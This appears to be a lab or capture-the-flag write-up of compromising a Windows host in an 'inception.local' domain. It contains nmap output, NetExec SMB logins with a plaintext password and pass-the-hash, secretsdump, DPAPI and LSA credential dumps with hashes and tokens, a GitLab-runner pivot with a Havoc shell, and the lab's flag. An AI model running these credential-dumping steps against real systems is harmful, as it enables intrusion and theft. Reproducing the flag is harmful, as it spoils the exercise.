



Same here we can run the NMAP to check the server.

```
PORT      STATE SERVICE       REASON         VERSION
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| ssl-cert: Subject: commonName=inwebjw.inception.local
| Issuer: commonName=inwebjw.inception.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-23T03:35:12
| Not valid after:  2024-12-23T03:35:12
| MD5:   38c4:c046:0e47:fc9c:110c:8132:8664:c757
| SHA-1: 4231:307e:2109:a244:3d9b:7b45:8986:f438:e140:46ce
| -----BEGIN CERTIFICATE-----
| MIIC8jCCAdqgAwIBAgIQMP9zQU/PlIBI6vgtBrevUTANBgkqhkiG9w0BAQsFADAi
| MSAwHgYDVQQDExdpbndlYmp3LmluY2VwdGlvbi5sb2NhbDAeFw0yNDA2MjMwMzM1
| MTJaFw0yNDEyMjMwMzM1MTJaMCIxIDAeBgNVBAMTF2lud2ViancuaW5jZXB0aW9u
| LmxvY2FsMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA9+j8qPnCGrWY
| h91egPtGJmRhfI5YwB+D5FPVzACmip8Qnl9J4ci7jHYewfyPlGYW6qCzryqoysLN
| FwyHKBbda0jMOrQ0pWYQ2Cf3promg/vJ/m6Biy82fFGkMiPPNVseDlHdvYTaCF79
| 0pWUh2ZJAB8kgwBagv9KSk8hasOm5OJYKH2bxncDjlb1sUnZygLGDlNHp++tLGtQ
| 62kzj1p6IkaXE6paX9/eSXQOXOnSGeJDpN7rAQrDvdfAULecn8wMEjvNNI8JuZ1k
| xxVepjp/4kpD3Ga4uGF1ma/2DVCNwqDi0omLRzpb9eqLD3bcIqvawNUU2ENHWyFt
| HALptKH2DwIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMC
| BDAwDQYJKoZIhvcNAQELBQADggEBAJnCvdp0grgAw9fAa1r2ouyInTE4Y/la0YYg
| 6CcoP3nFWVKYKzIiSq96r2XMppF8ahFJp3IC1mcJ+UWIbGIgCGO2r1HxbgaJ0qJH
| ydd2WHcWT/2LM5Br+9BTZ+ed1xlH8w5pKTMRV82O/N/ooy5XPwIhutxXAJ9H/ToE
| Oc3rU2x6IcV5jJ0k5NyKc4o1f/+kFWbTNJAEJl3zGvcW/3YoiQlOtOM3PsaR0puC
| 2ZkrKtQTb2nPllI2VbuFmgMHbASmayYnS+YJNdAEjKPE6VQSmSXE0Bq5Va4KX2V/
| IRCE0aK6MUQesAA6DVzPuFnm7j4m9ha9/Dvb3sJNmPDYZ2OHwO0=
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: inception
|   NetBIOS_Domain_Name: inception
|   NetBIOS_Computer_Name: INWEBJW
|   DNS_Domain_Name: inception.local
|   DNS_Computer_Name: inwebjw.inception.local
|   Product_Version: 10.0.14393
|_  System_Time: 2024-06-24T16:26:29+00:00
|_ssl-date: 2024-06-24T16:27:09+00:00; +4s from scanner time.
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49683/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49684/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49688/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
58060/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/24%OT=135%CT=%CU=%PV=Y%G=N%TM=66799E59%P=x86_64-pc-linux-gnu)
SEQ(SP=108%GCD=1%ISR=10E%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)
```

&nbsp;

# SMB

I don't see strange shares:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/d3v.local]
└─# NetExec smb 10.9.40.12 -u "Administrator" -p '9ze9wL0C!3' -d "cyber.local" --shares
SMB         10.9.40.12      445    INWEBJW          [*] Windows 10 / Server 2016 Build 14393 x64 (name:INWEBJW) (domain:inception.local) (signing:True) (SMBv1:False)
SMB         10.9.40.12      445    INWEBJW          [+] cyber.local\Administrator:9ze9wL0C!3 
SMB         10.9.40.12      445    INWEBJW          [*] Enumerated shares
SMB         10.9.40.12      445    INWEBJW          Share           Permissions     Remark
SMB         10.9.40.12      445    INWEBJW          -----           -----------     ------
SMB         10.9.40.12      445    INWEBJW          ADMIN$                          Remote Admin
SMB         10.9.40.12      445    INWEBJW          C$                              Default share
SMB         10.9.40.12      445    INWEBJW          IPC$            READ            Remote IPC
```

&nbsp;

&nbsp;

And we are ntsystem nice, now I will upload a Havoc shell as well!



And we have a shell baby!



&nbsp;

# Post Exploitation

From gitlab we were able to pivot to this machine via a runner.

Now the shell.bat is ready, the yml config for running the script via pipeline is also ready, we just need to wait and we get an execution!



I will start by dumping all the secrets!

```
┌──(root㉿kali-bello)-[/home/…/47a0e6bc/Download/C:/Temp]
└─# impacket-secretsdump -system systemic.txt -security security.txt -sam samantha.txt LOCAL                     
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Target system bootKey: 0xde097c90384b2f740683173f537c9556
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:366af0db6165167ca00163324b11420e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
INCEPTION.LOCAL/Administrator:$DCC2$10240#Administrator#c04a32035dbcc97e3e0297c0bde44b0b: (2024-03-13 11:22:59)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:3f006200610020005a005f002c007800670078004000540028002300250033005a005c003a00730068004a005700300065003b006300260072004c002b003900390029004700600052005f0031005b0075003100520065003c003c004700440052005a006a00530052006b0074005a00350051002e002e004b0047007500610070006c007200320072003d0026004900440024005a0079005b00700077004d004d00720047005300310079002a00680026006a003200670035006500740074004a00330072003c00320037002e0058003a004300400050002c004a00380073005e00410043003c007400370046003200
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:e087db5416e39f0ed961cdc0facf17fc
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xe40c521d879554bbf0c1840da36ab52668d5a187
dpapi_userkey:0x4a5bb96b35f25a05713bad6f1a35a51239a09b3a
[*] NL$KM 
 0000   99 4F 5D 6C 55 B9 EC B5  0C 0B D8 75 A2 88 93 E4   .O]lU......u....
 0010   C0 D9 EF C5 0D B9 40 57  92 39 9A BE 9D A5 83 ED   ......@W.9......
 0020   11 CB 71 7C AB 32 CD 11  FD 7A ED 2E AB BE F1 62   ..q|.2...z.....b
 0030   58 F2 1D 8A AC 9F AC FB  32 17 D8 EE B3 BD A5 DC   X.......2.......
NL$KM:994f5d6c55b9ecb50c0bd875a28893e4c0d9efc50db9405792399abe9da583ed11cb717cab32cd11fd7aed2eabbef16258f21d8aac9facfb3217d8eeb3bda5dc
[*] Cleaning up...
```

The only juicy thing I see here is the NTLM hash of the Administrator@inception.local. But it isn't working quite right.

So let's look around for the flag!

And there we have it:

```
PS C:\Users\Administrator\Desktop> ls

    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a----        8/24/2020  10:27 PM             50 flag.txt                      


cat : Cannot find path 'C:\Users\Administrator\Desktop\flag-.txtx' because 
it does not exist.
At line:1 char:1
+ cat flag-.txtx
+ ~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\Users\Admini...op\flag-.txt 
   x:String) [Get-Content], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetCo 
   ntentCommand
 
Cyb3rN3t1C5{G!tl@bRC3}tor\Desktop> cat flag.txt
PS C:\Users\Administrator\Desktop>
```

Now I don't see any cleartext password, the NTLM hash of the user is not clearly working so I will move on to the last step on the **indc.inception.local.**

&nbsp;

# **EXTRA**

With the DA credentials I will dump the DPAPI secrets as well:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# NetExec smb 10.9.40.12 -u 'SVC_GITLAB_RN$' -H A40DEF757A23639CA85B3C198B411D12 -d "inception.local" --dpapi
SMB         10.9.40.12      445    INWEBJW          [*] Windows 10 / Server 2016 Build 14393 x64 (name:INWEBJW) (domain:inception.local) (signing:True) (SMBv1:False)
SMB         10.9.40.12      445    INWEBJW          [+] inception.local\SVC_GITLAB_RN$:A40DEF757A23639CA85B3C198B411D12 (Pwn3d!)
SMB         10.9.40.12      445    INWEBJW          [+] Loading domain backupkey from nxcdb...
SMB         10.9.40.12      445    INWEBJW          [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         10.9.40.12      445    INWEBJW          [+] Got 23 decrypted masterkeys. Looting secrets...
SMB         10.9.40.12      445    INWEBJW          [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{C3EDB360-5905-448F-BECB-D8166C20D466} - SERVER-2016\Administrator:6IVx7cxECM6m57WVjrqfH1gvluKnvN
SMB         10.9.40.12      445    INWEBJW          [SYSTEM][CREDENTIAL] LegacyGeneric:target=git:http://gitlab-ci-token@gitlab.inception.local - gitlab-ci-token:VatckeWu6UMAsTYDrz-4
```

and some lsass secrets without finding anything unusual:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# NetExec smb 10.9.40.12 -u 'SVC_GITLAB_RN$' -H A40DEF757A23639CA85B3C198B411D12 -d "inception.local" --lsa  
SMB         10.9.40.12      445    INWEBJW          [*] Windows 10 / Server 2016 Build 14393 x64 (name:INWEBJW) (domain:inception.local) (signing:True) (SMBv1:False)
SMB         10.9.40.12      445    INWEBJW          [+] inception.local\SVC_GITLAB_RN$:A40DEF757A23639CA85B3C198B411D12 (Pwn3d!)
SMB         10.9.40.12      445    INWEBJW          [+] Dumping LSA secrets
SMB         10.9.40.12      445    INWEBJW          INCEPTION.LOCAL/Administrator:$DCC2$10240#Administrator#c04a32035dbcc97e3e0297c0bde44b0b: (2024-03-13 11:22:59)
SMB         10.9.40.12      445    INWEBJW          inception\INWEBJW$:aes256-cts-hmac-sha1-96:fb4173a097cd4fbeba4fc72907fe8df24adb11d111052fc91612d8f23e1c9bc1
SMB         10.9.40.12      445    INWEBJW          inception\INWEBJW$:aes128-cts-hmac-sha1-96:9b2f30ccd9b3606ce88e2e93c58d0318
SMB         10.9.40.12      445    INWEBJW          inception\INWEBJW$:des-cbc-md5:3e7f29026ea1b0ec
SMB         10.9.40.12      445    INWEBJW          inception\INWEBJW$:plain_password_hex:3f006200610020005a005f002c007800670078004000540028002300250033005a005c003a00730068004a005700300065003b006300260072004c002b003900390029004700600052005f0031005b0075003100520065003c003c004700440052005a006a00530052006b0074005a00350051002e002e004b0047007500610070006c007200320072003d0026004900440024005a0079005b00700077004d004d00720047005300310079002a00680026006a003200670035006500740074004a00330072003c00320037002e0058003a004300400050002c004a00380073005e00410043003c007400370046003200
SMB         10.9.40.12      445    INWEBJW          inception\INWEBJW$:aad3b435b51404eeaad3b435b51404ee:e087db5416e39f0ed961cdc0facf17fc:::
SMB         10.9.40.12      445    INWEBJW          dpapi_machinekey:0xe40c521d879554bbf0c1840da36ab52668d5a187
dpapi_userkey:0x4a5bb96b35f25a05713bad6f1a35a51239a09b3a
SMB         10.9.40.12      445    INWEBJW          NL$KM:994f5d6c55b9ecb50c0bd875a28893e4c0d9efc50db9405792399abe9da583ed11cb717cab32cd11fd7aed2eabbef16258f21d8aac9facfb3217d8eeb3bda5dc
SMB         10.9.40.12      445    INWEBJW          [+] Dumped 8 LSA secrets to /root/.nxc/logs/INWEBJW_10.9.40.12_2024-06-28_150110.secrets and /root/.nxc/logs/INWEBJW_10.9.40.12_2024-06-28_150110.cached
```

&nbsp;

&nbsp;

&nbsp;

&nbsp;